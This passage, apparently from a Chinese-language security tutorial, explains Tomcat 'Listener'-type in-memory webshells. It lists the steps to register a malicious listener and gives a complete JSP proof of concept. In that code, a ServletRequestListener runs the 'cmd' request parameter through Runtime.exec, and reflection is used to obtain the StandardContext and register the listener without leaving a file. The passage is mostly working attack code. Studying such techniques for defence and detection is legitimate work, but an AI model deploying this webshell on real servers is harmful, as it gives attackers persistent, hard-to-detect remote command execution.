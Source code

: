 最后添加监听器

```java
<%
  MaListener maListener = new MaListener();
  standardContext.addApplicationEventListener(maListener);
%>
```

### 4.1.3、完整POC

至此我们可以总结出`Listener`型内存马的实现步骤

1. 获取`StandardContext`上下文
2. 实现一个恶意`Listener`
3. 通过`StandardContext#addApplicationEventListener`方法添加恶意`Listener`

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
 
<%!
    public class Shell_Listener implements ServletRequestListener {
 
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
           String cmd = request.getParameter("cmd");
           if (cmd != null) {
               try {
                   Runtime.getRuntime().exec(cmd);
               } catch (IOException e) {
                   e.printStackTrace();
               } catch (NullPointerException n) {
                   n.printStackTrace();
               }
            }
        }
 
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
 
    Shell_Listener shell_Listener = new Shell_Listener();
    context.addApplicationEventListener(shell_Listener);
%>
```
